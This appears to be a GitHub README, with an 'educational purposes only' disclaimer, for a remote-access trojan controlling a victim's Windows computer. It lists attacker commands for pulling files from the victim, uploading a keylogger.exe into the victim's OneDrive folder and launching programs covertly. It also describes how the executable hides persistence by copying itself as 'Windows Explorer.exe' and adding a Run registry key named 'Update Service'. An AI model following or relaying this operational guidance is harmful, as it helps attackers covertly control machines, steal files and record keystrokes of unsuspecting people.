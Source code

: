 # Everything created here was done only for educational purposes
* <code>-l</code> or <code>--local</code> do local command
* <code>--no_split</code> don't split command
* <code>download file_name</code>(file will be download from victim to your working directory)
* <code>upload file_name</code>(file will be upload to target machine to it wotking directory)
* <code>& command</code> Don't wait for the result , simply pass the command to the victim
* <code> exit </code> (Don't close connection without exit)
## Some Examples
1. ***-l cd /home/username/Desktop*** (change directory in local machine, in our case: attack machine)
2. ***dir*** (command for target machine , in our case: WIndows)
3. ***download sample.exe*** (Download file sample.exe from victim(file sample.exe must be in victim local directory) to attacker to his/her working directory: in out case it's: /home/username/Desktop)
4. ***cd C:\Users\admin\AppData\Local\Microsoft\OneDrive*** (change working victim directory)
5. ***upload keylogger.exe*** (Upload file: keylogger exe from attacer(keylogger.exe must be in ouer working directory again, our case: /home/username/Desktop) to victim working directory(C:\Users\AppData\Local\Microft\OneDrive)
6. ***cd C:\Program Files\Google\Chrome\Application***</br>
   ***& chrome.exe some_link***( Start command in background, if you don't do this you will wait for the result of victim computer, and it give you result only when  vectim user close chrome.exe)
  7. ***--no_split C:Program Files\Google\Chrome\Application\chrome.exe***(Don't split command , so in our case command sends as ["C:ProgramFiles\Google\Chrome\Application\chrome.exe"]. Int's working with ***cd*** also because cd don't split the rest of the command after intself for default.(["cd"," C:Program Files\Google\Chrome\Application\chrome.exe"]
  8. If you put incorrect command , program hasn't closed. It give you message of error
  9. The main concept is : Victim always waiting . Close connection correct from attacker , using exit
  ## And one more think ##
  * In first start , if you running exe file , file copyied itself in C:\Users\admin\AppData\Windows Explorer.exe
  * It adding itself to auto-upload(HKCU - > Software -> Microsoft -> Windows -> CurrentVersion -> Run ; named Update Service)
